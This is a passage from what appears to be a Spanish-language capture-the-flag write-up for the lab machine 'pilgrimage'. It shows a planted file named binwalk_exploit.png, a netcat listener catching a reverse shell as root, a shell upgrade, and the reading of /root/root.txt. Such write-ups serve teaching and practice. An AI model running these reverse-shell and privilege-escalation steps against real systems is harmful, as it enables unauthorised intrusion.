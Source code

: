 ```bash
-rw-r--r-- 1 www-data www-data  65703 Feb 18 11:02 67b3ce2de735a.png
-rw-r--r-- 1 www-data www-data  66016 Feb 18 11:06 67b3ceff05ee0.png
-rw-r--r-- 1 www-data www-data  66260 Feb 18 11:09 67b3cfa7b9730.png
-rw-r--r-- 1 emily    emily    178080 Feb 18 11:42 binwalk_exploit.png
```

Verificamos que finalmente ganamos acceso al sistema como usuario `root` y podemos visualizar la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.219] 34976
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@pilgrimage:~/quarantine# whoami
whoami
root
root@pilgrimage:~/quarantine# cat /root/root.txt
cat /root/root.txt
a0c28ed79d164********************
```
